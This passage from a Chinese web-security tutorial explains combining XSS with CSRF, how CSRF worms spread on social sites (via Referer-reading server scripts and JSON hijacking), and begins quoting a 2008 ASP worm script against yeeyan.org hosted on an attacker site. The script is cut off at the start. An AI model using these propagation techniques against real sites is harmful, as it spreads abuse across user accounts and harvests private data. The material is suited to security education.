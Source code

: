诱惑受害者访问该页面，效果如图：

![](http://drops.javaweb.org/uploads/images/0977e88899fcde7bcec073f3810d6d6a35a3f023.jpg)

看看生词本：

![](http://drops.javaweb.org/uploads/images/2a432c192a7da7d9a0f3446b291358e5d9db60b5.jpg)

已经成功添加了一个新单词“Wooyun”，到我们的XSS平台上看看备注中的JavaScript代码有没有执行：

![](http://drops.javaweb.org/uploads/images/a4c0aad7da33002c223afd8ab7b85a5209bd60aa.jpg)

![](http://drops.javaweb.org/uploads/images/c8c722f38000cb370bc01ef7ae767e68e2145e79.jpg)

代码成功执行！

由此可以看到，如果能够将XSS攻击和CSRF攻击结合起来，会产生1+1>2的效果。

0x07 CSRF蠕虫
=====

说说蠕虫。

蠕虫有两大特征：

1） 传播性；

2） 恶意行为。

蠕虫的恶意行为是由其传播性引起的，也就是说，凡是传播可以做的事，蠕虫基本上都可以做，而且还可以做些和特定蠕虫有关的事，比如我们要说的CSRF蠕虫就可以大批量地获取用户的隐私信息（CSRF的危害之一嘛）。

所以，我们主要研究CSRF蠕虫的传播性。

CSRF蠕虫的传播性如何实现呢？在前面我们提到过，CSRF蠕虫就是在CSRF的攻击页面中加入了蠕虫传播的攻击向量。这听上去感觉很容易，但实施起来恐怕还要多考虑一些东西。

仔细想想，在一个SNS网站上传播CSRF蠕虫有一个不得不考虑的问题：蠕虫面对的是不同的用户，而不仅仅是某一个受害者。那对于不同的用户，其对应的请求（CSRF核心：伪造的请求嘛）会不会有些地方不一样呢？

没错，在之前的CSRF攻击中，我们的攻击目标是某一个特定的个体。当我们可以预测其请求的所有参数之后，我们就可以发起攻击。但是在SNS网站上传播CSRF蠕虫就不是这么简单。即使每个用户的所有请求参数都可以预测，但是对于不同的用户，其对应的请求参数是不一样的，我们无法像前面的攻击那样构造攻击页面，必须想办法获取这些标识不同用户的数据。

方法一：利用服务端脚本获取

在这里，我们构造的攻击页面不是一个简单的.html文件了，而是一个服务端脚本，如php、asp等等。

受害者的标识信息，如用户id等，经常出现在url中，这样我们就可以利用服务端脚本来获取请求的Referer中的用户id，以此为基础构造出html+js的攻击页面，在攻击向量中添加我们服务端脚本的链接，以此造成蠕虫传播的效果。

方法二：利用JSON HiJacking技术获取

JSON HiJacking的攻击方法前面已经讲得很详细了，如果网站上提供了这样的获取数据的接口，那么利用这种技术获取用户的隐私信息是一个不错的方法。

综上所述，如果一个SNS网站上存在CSRF漏洞，并且我们有办法获取到用户的标识信息，那么就满足了CSRF蠕虫传播的条件，这个网站就是可蠕虫的。

下面看一个CSRF蠕虫实例：

这是2008年发起的一次针对译言网（`www.yeeyan.org`）的CSRF蠕虫攻击，攻击者的链接为`http://www.evilsite.com/yeeyan.asp`，服务端脚本yeeyan.asp内容如下：

```
<%
'auther: Xlaile
'data: 2008-09-21
'this is the CSRF Worm of www.yeeyan.com        

r = Request.ServerVariables("HTTP_REFERER")
'获取用户的来源地址，如：http://www.yeeyan.com/space/show/hving        

If InStr(r, "http://www.yeeyan.com/space/show") > 0 Then
    'referer判断，因为攻击对象为yeeyan个人空间留言板，就是这样的地址        

    Function regx(patrn, str)
```